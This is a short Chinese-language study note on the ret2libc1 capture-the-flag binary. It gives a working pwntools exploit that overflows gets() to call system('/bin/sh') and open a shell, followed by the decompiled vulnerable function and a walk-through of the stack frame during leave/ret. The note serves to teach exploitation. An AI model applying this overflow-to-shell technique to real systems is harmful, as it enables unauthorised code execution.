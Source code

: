 # 分析ret2libc1返回地址


```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

'b'*4是system执行完之后的返回地址，并不重要

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

如上是伪代码
在执行gets之后，分析gets的函数栈接近$ebp的边界情况

|||
|---|---|
|$ebp0+8|
|$ebp0+4|返回地址|
|$ebp0|上一个函数的ebp|

esp的值是所在格子下沿到格子上沿

在gets完结的时候

leave: 
将esp1 = ebp0
pop ebp1(值为ebp0）

此时esp1指向返回地址（ebp0+4)，ebp1已"归位"
然后jmp这个返回地址，并且pop掉，
此时esp1指向格子里的"$ebp0+8"

控制权给新函数
新函数将push ebp1(到ebp0+4)
ebp2 = esp1(值为ebp0+4)
此时ebp2指向ebp0+4


开始正常执行新函数，调用system(argv1)，这个argv1通过ebp2+8寻找第一个argv1，就是ebp0+c的位置，所以中间的ebp+8空了，实际上是system调用会ret的地址

正常情况下是一个call会接一个ret
可是我们是ret到一个新函数，那么就导致没有新函数的返回地址被”call“过程压入，但是新函数还是会照常按照“约定”的返回地址的位置寻找到返回地址
进行返回



